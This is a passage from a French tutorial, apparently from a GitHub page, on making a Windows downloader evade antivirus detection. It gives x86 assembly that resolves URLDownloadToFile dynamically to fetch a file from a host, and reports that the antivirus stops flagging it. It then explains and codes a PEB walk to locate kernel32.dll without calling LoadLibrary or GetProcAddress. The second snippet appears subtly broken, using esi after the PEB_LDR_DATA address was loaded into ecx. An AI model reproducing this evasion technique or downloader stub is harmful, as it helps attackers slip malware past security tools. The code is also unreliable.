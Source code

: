 ```
.code 
start: 
	push offset lib_Urlmon
	call LoadLibrary ; eax contient un handle vers Urlmon.dll

	push offset fun_URLDownloadToFile
	push eax
	call GetProcAddress ; eax contient maintenant l'adresse de URLDownloadToFile

	push 0 
	push 0 
	push offset filename 
	push offset host 
	push 0 
	call eax

exit: 
	push 0 
	call ExitProcess 

end start
```

Une fois compilé et linké, on se rend compte que l'AV ne classe plus ce programe comme malveillant. C'est un **quick win**, mais essayons d'aller un peu plus loin.

Cette méthode est souvent utilisée dans les malwares et il est possible que l'appel à la fonction __LoadLibrary__ puis successivement à __GetProcAddress__ soit considérée comme malveillante. Il faudrait alors pouvoir se passer de l'appel direct à ces fonctions et utiliser un __call eax__. Mais pour trouver l'adresse de __LoadLibrary__, j'ai besoin de __LoadLibrary__ et de __GetProcAddress__ ...

Il existe une solution à ce problème. Chaque processus contient une structure qui s'appelle le __PEB__ (Process Environment Block) et qui contient de nombreuses informations sur le processus en cours. Notamment une liste chainée qui contient les adresses des librairies chargées en mémoire au démarage de la machine (ntdll.dll suivie de kernel32.dll, ...). Rappelons que Kernel32.dll est la librairie qui contient __LoadLibrary__ et __GetProcAddress__.

Il faut alors trouver l'adresse de __Kernel32.dll__ afin de trouver les adresses de __LoadLibrary__ et __GetProcAddress__. Pour cela, il faut trouver l'adresse du __PEB__, puis parcourir cette fameuse liste chainée.

Pour un processus x86, l'adresse du __PEB__ est toujours située dans le segment __FS__ à l'offset __0x30__ (à titre indicatif, il est dans le segment __GS__ à l'offset __0x60__ pour un processus x64). Il faut ensuite retrouver l'adresse de la structure __PEB\_LDR\_DATA__ qui est à l'offset __0x0C__ du __PEB__. Enfin, retrouver l'adresse de la liste chainée dont nous parlions (__InInitializationOrderModuleList__) qui est à l'offset __0x1C__ de la structure __PEB_LDR_DATA__. Et enfin, l'adresse de __kernel32.dll__ qui se trouve à l'offset __0x08__ (car c'est toujours la deuxième librairie chargée en mémoire. La première étant __ntdll.dll__, à l'offset __0x04__) de __InInitializationOrderModuleList__. Tout cela se traduit par le code suivant:

```
xor ecx, ecx 
add ecx, fs:[ecx+30h] ; PEB 
mov ecx, [ecx+0Ch]    ; PEB\_LDR\_DATA 
mov esi, [esi+1Ch]    ; InInitializationOrderModuleList 
lodsd                 ; charge esi dans eax 
mov edx, [eax+08h]    ; edx: adresse de kernel32.dll
```
